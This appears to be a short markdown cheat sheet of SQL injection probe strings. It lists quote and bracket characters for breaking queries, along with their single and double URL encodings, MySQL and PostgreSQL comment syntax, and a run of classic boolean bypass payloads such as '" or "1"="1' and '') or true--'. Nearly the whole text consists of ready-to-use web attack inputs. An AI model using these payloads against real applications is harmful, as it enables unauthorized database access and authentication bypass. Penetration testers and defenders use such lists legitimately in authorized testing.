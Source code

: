 # Query Break

```sql
 [Nothing]
'
%27
"
%22
#
%23
;
%3B
)
`
')
")
`)
'))
"))
`))
Wildcard (*)
&apos;  # required for XML content
'/*
'/\*
';--
*/
```


- **`Multiple encoding`**
```sql
%%2727
%25%27
```




# Query Join

- MySQL

```mysql
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
```
- PostgreSQL
```sql
--comment
/*comment*/
```

- more ways to break

```sql
' -- -
'--'
"--"
') or true--
" or "1"="1
" or "1"="1"#
" or "1"="1"/*
"or 1=1 or ""="
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"#
") or ("1"="1"/*
") or "1"="1
") or "1"="1"--
") or "1"="1"#
") or "1"="1"/*
```


